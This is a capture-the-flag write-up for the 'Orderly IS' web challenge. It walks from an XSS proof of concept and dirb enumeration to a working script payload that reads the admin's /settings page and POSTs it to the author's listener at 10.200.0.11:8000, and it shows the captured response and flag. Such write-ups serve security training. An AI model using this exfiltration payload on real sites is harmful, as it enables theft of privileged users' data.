

# Orderly IS

Hi, packet inspector,

do you want to order something? Use our Orderly information system, it is intuitive, fast, reliable and secure! At least
that's what we claim in the TV ad. In last few hours it began to act weirdly, but its administrator is on vacation away
from civilization (and connectivity).

You will have to break into the [Orderly information system](http://orderly.mysterious-delivery.tcc:23000/) and check
its configuration.

May the Packet be with you!

---

I enjoyed this challenge. This is the web



We can post any data and the data is rendered back. I tried a few payload and
discovered [XSS vulnerability](https://portswigger.net/web-security/cross-site-scripting).

PoC:

```
<script>alert(1)</script>
```

In the meantime, I ran `nmap` and `dirb`. The latter discovered an interesting endpoint:

```
$ dirb http://orderly.mysterious-delivery.tcc:23000/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Oct 25 20:21:24 2022
URL_BASE: http://orderly.mysterious-delivery.tcc:23000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://orderly.mysterious-delivery.tcc:23000/ ----
==> DIRECTORY: http://orderly.mysterious-delivery.tcc:23000/javascript/
+ http://orderly.mysterious-delivery.tcc:23000/login (CODE:200|SIZE:1846)
+ http://orderly.mysterious-delivery.tcc:23000/logout (CODE:302|SIZE:199)
+ http://orderly.mysterious-delivery.tcc:23000/server-status (CODE:403|SIZE:299)
+ http://orderly.mysterious-delivery.tcc:23000/settings (CODE:302|SIZE:199)

---- Entering directory: http://orderly.mysterious-delivery.tcc:23000/javascript/ ----
==> DIRECTORY: http://orderly.mysterious-delivery.tcc:23000/javascript/jquery/

---- Entering directory: http://orderly.mysterious-delivery.tcc:23000/javascript/jquery/ ----
+ http://orderly.mysterious-delivery.tcc:23000/javascript/jquery/jquery (CODE:200|SIZE:287600)
```

This is interesting: `+ http://orderly.mysterious-delivery.tcc:23000/settings (CODE:302|SIZE:199)`

I have already seen a bit similar challenge so the next logical step was to verify that XSS payload is triggered
by the "admin" (a robot). Luckily, after solving [XML Prettifier](../02-xml-prettifier/README.md), I already knew I can use
my computer to hosts payloads.

The second PoC (don't forget about the firewall):

1. Get your VPN IP (`10.200.0.11`)
2. Configure/disable firewall
3. Run HTTP server on `10.200.0.11` (I'm using Python `http.server`)

Payload:

```

```

HTTP server log:

```
::ffff:10.200.0.11 - - [25/Oct/2022 20:27:05] code 404, message File not found
::ffff:10.200.0.11 - - [25/Oct/2022 20:27:05] "GET /test HTTP/1.1" 404 -
::ffff:10.99.0.5 - - [25/Oct/2022 20:27:05] code 404, message File not found
::ffff:10.99.0.5 - - [25/Oct/2022 20:27:05] "GET /test HTTP/1.1" 404 -
```

Bingo, there's hit from `10.99.0.5`!

Now, let's make a real exploit. My first idea was to steel the session cookie and use it to impersonate the admin but
the cookie is `httpOnly` so it wouldn't work.

The right idea is also quite simple: First, send HTTP request to read `/settings`, then send post the response of the first
request back to my localhost:

Also, don't forget about [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS). To make it work, I added
the following handler for `OPTIONS` method:

```python
def do_OPTIONS(self):
    self.send_response(HTTPStatus.OK)
    self.send_header("Access-Control-Allow-Origin", "*")
    self.send_header("Access-Control-Allow-Headers", "*")
    self.end_headers()
```

Those HTTP headers make CORS possible.

Run my customized [HTTP server](../../../../src-python/catch22/OrderlyIS/http-server.py) and send the exploit:

```html

<script>
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "/settings", false);
    xhr.send(null);
    var response = xhr.responseText;

    var xhr = new XMLHttpRequest();
    xhr.open("POST", "http://10.200.0.11:8000/", false);
    xhr.send(JSON.stringify({
        response
    }));
</script>
```

The POST request with flag is indeed logged:

```
POST /

Headers:
Host: 10.200.0.11:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.99.0.131:23000/
Content-Type: text/plain;charset=UTF-8
Content-Length: 1639
Origin: http://10.99.0.131:23000
Connection: keep-alive

Body:
{"response":"\n\n<!doctype html>\n<html lang=\"en\">\n  \n<head>\n\t<meta charset=\"utf-8\">\n\t<meta name=\"viewport\" content=\"width=device-width, initial-scale=1, shrink-to-fit=no\">\n\t<link rel=\"stylesheet\" href=\"/static/bootstrap.min.css\">\n\t<title>Settings (adminuser)</title>\n\n\t<link rel=\"stylesheet\" href=\"/static/style.css\">\n</head>\n\n<body>\n\t<nav class=\"navbar navbar-expand navbar-dark bg-dark fixed-top py-0\">\n\t\t<div class=\"container\">\n\t\t\t<a class=\"navbar-brand\" href=\"/\">Orderly</a>\n\t\t\t<button class=\"navbar-toggler\" type=\"button\" data-toggle=\"collapse\" data-target=\"#navbarResponsive\" aria-controls=\"navbarResponsive\" aria-expanded=\"false\" aria-label=\"Toggle navigation\"><span class=\"navbar-toggler-icon\"></span></button>\n\t\t\t<div class=\"collapse navbar-collapse\" id=\"navbarResponsive\">\n\t\t\t\t<ul class=\"navbar-nav ml-auto\">\n\t\t\t\t\t<li class=\"nav-item\"><a class=\"nav-link\" href=\"/order/add\">Add</a></li>\n\t\t\t\t\t<!-- begin only admins -->\n\t\t\t\t\n\t\t\t\t\t<!-- end only admins -->\n\t\t\t\t\n\t\t\t\t\t<li class=\"nav-item\"><a class=\"nav-link\" href=\"/order/process\">Process</a></li>\n\t\t\t\t\t<li class=\"nav-item\"><a class=\"nav-link\" href=\"/logout\">Logout</a></li>\n\t\t\t\t\n\t\t\t\t</ul>\n\t\t\t</div>\n\t\t</div>\n\t</nav>\n\n        <div class=\"container\">\n\t\t<div>\n\t\t\n\t\t\n\t\t\n\t\t</div>\n\n\t\t\n<h1>Settings</h1>\n<span id=\"flag\">FLAG{9QVE-0miw-qnwm-ER9m}\n</span>\n\n        </div>\n\n\t<script src=\"/static/jquery.min.js\"></script>\n\t<script src=\"/static/bootstrap.min.js\"></script>\n</body>\n\n</html>"}

10.99.0.3 - - [25/Oct/2022 20:42:34] "POST / HTTP/1.1" 200 -

```

For convenience, here is the copied out source for [Settings page](settings.html).

The flag is `FLAG{9QVE-0miw-qnwm-ER9m}`